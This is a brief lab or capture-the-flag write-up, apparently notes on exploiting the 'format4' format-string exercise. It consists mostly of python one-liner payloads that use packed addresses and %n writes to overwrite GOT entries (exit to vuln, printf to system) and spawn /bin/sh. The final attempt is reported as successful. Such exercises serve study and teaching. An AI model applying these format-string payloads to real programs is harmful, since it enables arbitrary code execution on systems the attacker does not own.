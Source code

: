 dump way: python -c "print 'AAAAAAAA' + '\x24\x97\x04\x08'+'%x '*4+'%134513800x '+'%n'" | ./format4 <br>
pop shell attempts:
- **#1** python -c "print 'AAAAAAAA' + '\x24\x97\x04\x08'+'BBBB'+'\x26\x97\x04\x08'+'\xc0\xf4\xff\xbf'+'\xc2\xf4\xff\xbf'+'%x '*4+'%26196x '+'%n'+'%20825x '+'%n'+'%109524x '+'%9\$n' +'%21564x' +'%10\$n'" => would fail cuz before calling exit it will move **1** to ESP, **overwriting** the pointer to **/bin/sh**
- **#2** python -c "print 'AAAAAAAA'+'\x24\x97\x04\x08'+'\x26\x97\x04\x08'+'\x1c\x97\x04\x08'+'\x1e\x97\x04\x08'+'\xa0\xf2\xff\xbf'+'\xa2\xf2\xff\xbf'+'%33969x '+'%6\$n'+'%33585x '+'%7\$n' + '%63403x ' + '%8\$n'+'%47164x'+'%9\$n'+'%43987x'+'%10\$n'+'%87100x'+'%11\$n'" > /tmp/test.txt => **rewrite** the address of **exit** to **vuln**, and **rewrite** the address of printf to **system**, put the **/bin/sh** to **buffer**, when it execute the **vuln** function again, the **/bin/sh** will be on top of the stack and thus passed to **system**. Worked like a champ~
